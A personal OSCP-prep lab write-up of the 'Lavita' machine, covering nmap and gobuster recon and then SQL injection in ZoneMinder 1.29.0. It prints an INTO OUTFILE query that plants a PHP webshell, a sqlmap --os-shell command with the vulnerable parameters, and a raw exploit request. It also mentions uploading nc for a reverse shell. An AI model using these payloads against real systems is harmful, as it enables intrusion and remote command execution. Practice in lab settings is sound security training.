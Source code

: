 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lavita
tags: []
---
```

**Start 19:38 02-01-2025**

---
```
Scope:
192.168.115.52
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.115.52 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux;)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-server-header: Apache/2.4.18 (Ubuntu)
3305/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Apache Tomcat
|_http-title: Tomcat
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There's 3 http ports open of which 3305 and 8080 are running an Apache and a Tomcat server  respectively.

On port 21 there's an FTP server that does *NOT* allow anonymous bind.

Let's check out port 80 for now.


# Initial Foothold

## 80/TCP - HTTP

I went to the website and found the following:

![](../../../assets/f8574b214fc823b7fe0b66d467a8d072.png)

I tried to log in with `admin - admin` but got nothing. This could point to a SQLi vulnerability but let's enumerate further.

### Gobuster

Meanwhile I did a directory search using `gobuster`:

![](../../../assets/c3fe69bcf70423f5738c1ff9ec26284a.png)

I extended my search using seclists and found a directory that I did not before.

![](../../../assets/83097cfa710ebb5ef436e88dad709d19.png)

I turned off the search and started checking the website:

![](../../../assets/993f1c4b3dcfc4ef39117e6e4a9d99bf.png)

It seems to be a **ZoneMinder 1.29.0** console, now that we have a version and service we can do some digging for PoC's.

![](../../../assets/88e54cf05dee566d49dd1ea6ee603af1.png)

My guess was partially correct, it does appear to be a SQLi exploit. Let's check it out.

![](../../../assets/6d9a4cad3bcf92e8611965e168e41357.png)

![](../../../assets/ef3a9a9f2fc35cc22f930f2cd9fbebf8.png)

Let's try to exploit it

### Burpsuite - Manual Exploitation

I went into burp and tried the ready made payload to test it out:

![](../../../assets/faa4ace971791fa9e2041fec4b949858.png)

it was indeed injectable so that was good. Now it was time to utilize this to give ourselves a webshell.

Since **port 3305** is running a default Apache web page, located in `/var/www/html` we could go ahead and put a webshell there:

```SQL
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”
```

![](../../../assets/2cf75126a4b8444151b4476edee89545.png)

>[!fail]
>This approach ultimately kept on failing for whatever reason and thus I decided to use SQLmap.
>![](../../../assets/bd9a56d04016103736b3368305fa0593.png)


### SQLmap - Automated Exploitation

I went ahead and launched `sqlmap` and let it do it's thing for a while:

```bash
sqlmap http://192.168.115.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell
```

>[!note]
>Eventhough automated  SQL tools are *NOT* allowed on the exam, OffSec still encourages to use sqlmap for this machine.

>[!fail] 
>This also just kept on failing, I looked everywhere and could not understand why as everyone else just got a shell, but for me the `> os-shell` only kept returning `No output`.

I then slightly modified the POST request and retested it and found out that this time it did work, the shell however is painfully slow.

```bash
POST /zm/index.php HTTP/1.1
Host: 192.168.196.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

![](../../../assets/5cacf6f2ecbb80097bf10fbad50a20b3.png)

Because the shell was so painstakingly slow I tried to upload `nc` to get a reverse shell, however eventhough the upload worked it would not launch a reverse shell:

![](../../../assets/85d7c846bafdfec0d8646e2601d56ecd.png)

![](../../../assets/eef9be68cd80bac2bf9811679989b635.png)

![](../../../assets/4c2c48538f623059fc2927d48e55d1c6.png)

### proof.txt

So since this didn't work I just decided to use `cat /root/proof.txt` in order to get the flag.

![](../../../assets/81e3169a6097deff5d2d152cf6000d25.png)


>[!summary]
>1) We found a **ZoneMinder** console of version 1.29.0 which was vulnerable to SQLi
>2) We tried manually exploiting it with no luck
>3) We also exploited it using `sqlmap` 
>4) We were *NOT* able to get a reverse shell via `sqlmap` for unknown reasons

---

**Finished 09:33 03-01-2025**

[^Links]: [[OSCP Prep]] 

#SQLi #burpsuite #ZoneMinder 
